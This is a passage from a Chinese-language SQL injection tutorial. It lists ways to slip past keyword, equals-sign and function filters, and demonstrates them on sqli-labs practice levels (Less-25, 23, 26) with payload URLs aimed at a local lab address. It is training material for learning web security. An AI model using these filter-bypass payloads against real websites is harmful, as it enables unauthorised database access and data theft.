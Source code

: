 ### 4.2.4.**union，select等关键字过滤绕过**

1) 大小写绕过uNIon,sEeCt
2) 双写绕过uniunionon,selselctct
3) 注释符绕过U/**/nion
4) 内联注释/*!union*/
5) 编码绕过

### 4.2.5.**等号过滤绕过**

1) 大于号小于号替代等号
2) like绕过

### 4.2.6.**函数过滤绕过**

1) 同功能函数替换mid()替换substring()
2) 各类编码绕过

当然还存在很多的绕过方式，可能还存在很多奇奇怪怪的绕过姿势，这里就总结一下常见的。

## 4.3.**3.案例**

案例这里只测试绕过方式，不会一直注入至获取数据，除了绕过检测，和其他的案例不一样，后续的注入手法都是差不多的。

### 4.3.1.**案例**sql-labs-less-25 or/and绕过

#### 4.3.1.1.**双写绕过**

URL：http://192.168.10.150/sqlilabs/Less-25/?id=1' anandd 1=2--+

![img](https://s2.loli.net/2023/03/12/3zVqaiu1XypxNoB.jpg) 

后面使用到的所有的函数单词中涉及or或and都需要双写，不然会被过滤。

至于使用报错还是布尔亦或者延迟都可以，可能会存在有些盲注使用不了还可以使用联合查询，使用什么方式可以自己进行测试。

### 4.3.2.**案例**sql-labs-less-23 注释符绕过

#### 4.3.2.1.**构造干扰字符闭合**

URL：http://192.168.10.150/sqlilabs/Less-23/?id=1' anandd '1'='2--+

![img](https://s2.loli.net/2023/03/12/CxM4cJfBr98kRND.jpg) 

### 4.3.3.**案例**sql-labs-less-26 空格绕过

这一关涉及到了and或or过滤，空格过滤，注释符过滤。至于空格为什么没使用编码绕过，是因为搭建的环境不识别，所以就使用了括号绕过，但前提是括号没被过滤。

#### 4.3.3.1.**括号绕过**

URL：http://192.168.10.150/sqlilabs/Less-26/?id=1'anandd(updatexml(1,0x7e,1))anandd'

![img](https://s2.loli.net/2023/03/12/pJm1HAqCo5Ohjzl.jpg) 
